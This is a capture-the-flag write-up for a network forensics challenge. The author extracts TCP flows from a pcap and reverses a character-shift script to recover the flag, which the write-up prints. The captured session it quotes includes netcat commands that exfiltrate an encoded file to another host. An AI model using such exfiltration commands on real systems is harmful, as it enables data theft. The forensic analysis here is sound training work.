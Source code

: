 '19CyberForce Anomaly 49 - Networking
===
[README.txt](./README.txt)
>Our wily hacker does want the snooping admins to see the data content that is being stolen and has used a few tricks to mix things up.
>
>From the pcap file, find the original data content that the hacker exfiltrated. 
>
>Flag is in the "cfc{}" format. 

There was only one file provided, which is [**sneak_exfil_clean.pcapng**](./sneak_exfil_clean.pcapng)
pcapng, which extends the simpler flormat pcap is a Wireshark file, therefore, there must be packages, which were captured over the network.
A tool that analizes network traffic and it captures data over TCP connections is tcpflow.

```
[pasheva]$ tcpflow -d2 -r sneak_exfil_clean.pcapng 
reportfilename: ./report.xml
tcpflow: retrying_open ::open(fn=010.000.000.010.51686-010.000.000.002.01337,oflag=xc2,mask:x1b6)=5
tcpflow: retrying_open ::open(fn=010.000.000.002.01337-010.000.000.010.51686,oflag=xc2,mask:x1b6)=6
tcpflow: retrying_open ::open(fn=010.000.000.010.41820-010.000.000.002.01338,oflag=xc2,mask:x1b6)=7
tcpflow: retrying_open ::open(fn=010.000.000.002.52962-010.000.000.010.01339,oflag=xc2,mask:x1b6)=7
tcpflow: Open FDs at end of processing:      2
tcpflow: demux.max_open_flows:               3
tcpflow: Flow map size at end of processing: 2
tcpflow: Flows seen:                         6
tcpflow: Total flows processed: 6
tcpflow: Total packets processed: 39
```
We do end up with 4 files dumped. We can futher analize what type of files those are.
```
[pasheva]]$ file 010.000.000.002.01337-010.000.000.010.51686
010.000.000.002.01337-010.000.000.010.51686: ASCII text

important.txt
important.txt
wannahide.py
s:  important.txt
my dude, file is ready for exfil
hidden_loot.txt
important.txt
wannahide.py
```

```
[pasheva]$ file 010.000.000.010.41820-010.000.000.002.01338
010.000.000.010.41820-010.000.000.002.01338: Python script, ASCII text executable


#!/usr/bin/python
import sys

ofilename = "hidden_loot.txt"

if len(sys.argv) < 2: 
	print "not enough args"
	exit()

ih = open(sys.argv[1], "r")
oh = open(ofilename, "w")

print "s: ", sys.argv[1]

with open(sys.argv[1]) as ih:
	for line in ih:
		for ch in line:
			oh.write(chr(ord(ch)-0xa))
print "my dude, file is ready for exfil" 

```
```
[pasheva]$ file 010.000.000.002.52962-010.000.000.010.01339
010.000.000.002.52962-010.000.000.010.01339: ASCII text, with no line terminators

Y\Yqm_h;i^WHaIjWhs
```

```
challB]$ file 010.000.000.010.51686-010.000.000.002.01337
010.000.000.010.51686-010.000.000.002.01337: ASCII text

ls
nc -l -p 1338 > wannahide.py
ls
python wannahide.py important.txt
ls
nc -w 3 1339 < hidden_loot.txt
nc -w 3 10.0.0.10 1339 < hidden_loot.txt
```
This porvide us with some information of the structure. We can also see that any input that has been lstened to on port 1338 has been redirected to the python file.
I renamed the string to [important.txt](./010.000.000.002.52962-010.000.000.010.01339) and the python file to [wannahide.py](./010.000.000.010.41820-010.000.000.002.01338)
```
[pasheva]$  python wannahide.py importnat.txt
s:  importnat.txt
Traceback (most recent call last):
  File "wannahide.py", line 19, in <module>
    oh.write(chr(ord(ch)-0xa))
ValueError: chr() arg not in range(0x110000)
```
Every character has been converted to ASCII value and shifted down by 10 so we can do the reverse and shift it up. 
```diff
-oh.write(chr(ord(ch)-0xa))
+oh.write(chr(ord(ch)+0xa))
```
Running again the python file get us the hidden_lost.txt file, which
has the [**flag**](./hidden_loot.txt):
>cfc{wirEshaRkStar}